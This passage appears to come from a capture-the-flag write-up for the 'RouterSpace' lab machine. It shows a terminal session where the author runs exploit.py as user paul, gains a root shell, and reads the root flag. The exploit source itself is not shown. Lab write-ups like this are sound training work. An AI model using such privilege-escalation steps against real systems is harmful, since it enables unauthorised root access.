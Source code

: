 => Executed exploit and got root flag

```bash
paul@routerspace:~$ python3 exploit.py 
# ls
exploit.py  libnss_X  linpeas.sh  snap	user.txt
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
e741e9561463f0227c04aacb069e1cec
# 
```

{{<figure src="/images/routerspace/root.png" title="Root Access">}}
